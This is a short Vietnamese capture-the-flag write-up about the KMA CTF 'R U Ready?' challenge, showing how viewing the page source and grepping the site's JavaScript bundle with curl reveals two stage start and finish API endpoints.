Sau khi tìm hiểu thêm về cách tìm và có được `API` để gửi server thì em học đc 1 tí về cách lấy được source js về r tìm `API`

Đầu tiên, chỉ cần `ctrl+U` để view source của cái web:
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta name="theme-color" content="#08111d" />
    <meta name="description" content="R U Ready? KMA CTF Rubik challenge" />
    <title>R U Ready? | KMA CTF</title>
    <script type="module" crossorigin src="/assets/index-CO3YbkAX.js"></script>
    <link rel="stylesheet" crossorigin href="/assets/index-D-eGM6fd.css">
  </head>
  <body>
    <div id="root"></div>
  </body>
</html>
```
Từ đây, ta thấy là module được nối với 1 source khác. Lúc này có 2 option là `curl` trên terminal hoặc ấn thẳng link rồi tìm `/api` thì sẽ ra được cái API
- Đối với terminal:
```c
curl -sS http://42.112.213.93:18081/assets/index-CO3YbkAX.js | grep `/api`
```
Lúc này, 2 API sẽ có dạng như vầy:
```c
/api/stages/${e}/start
/api/stages/${e}/finish
```



> **Và thế là em đã biết đc program có 2 cái API để gửi và nhận `response` từ server**